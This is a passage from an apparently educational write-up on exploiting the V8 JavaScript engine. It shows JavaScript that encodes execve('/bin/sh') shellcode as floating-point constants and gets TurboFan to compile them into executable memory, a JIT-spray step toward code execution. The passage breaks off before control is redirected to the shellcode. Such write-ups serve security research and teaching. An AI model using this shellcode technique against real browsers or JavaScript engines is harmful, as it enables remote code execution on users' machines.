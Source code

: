 We'll also need a some Javascript code to convert these integers into their float representation, in order for them to be compiled into usable shellcode.
```js
var bs = new ArrayBuffer(8);
var fs = new Float64Array(bs);
var is = new BigUint64Array(bs);

/* converts a 64-bit uint to a float */
function itof(x) {
  is[0] = x;
  return fs[0];
}

let x = [
  930996698553531242n,
  930937805292646248n,
  930936078731456360n,
  930996696683626824n,
  930996697537642824n,
  930996698562922824n,
  931068857101463880n,
  930996698557187343n
];

for (let i = 0; i < x.length; i++)
  console.log(itof(x[i]));

/*
[
  1.9711828979523134e-246,
  1.9562205631094693e-246,
  1.9557819155246427e-246,
  1.9711824228871598e-246,
  1.971182639857203e-246,
  1.9711829003383248e-246,
  1.9895153920223886e-246,
  1.971182898881177e-246
]
*/
```

### 3.5. Executing Shellcode
Now we have everything we need in order to achieve code execution - both the ability to redirect process execution to an arbitrary address, and the ability to write shellcode to executable memory. 

The below Javascript code can help demonstrate this in its entirety. With the first step being to get TurboFan to compile our function with our "shellcode".
```js
/* execve("/bin/sh", 0, 0); */
const foo = () => {
  return [
    1.9711828979523134e-246,
    1.9562205631094693e-246,
    1.9557819155246427e-246,
    1.9711824228871598e-246,
    1.971182639857203e-246,
    1.9711829003383248e-246,
    1.9895153920223886e-246,
    1.971182898881177e-246
  ];
}

%PrepareFunctionForOptimization(foo);
foo();
```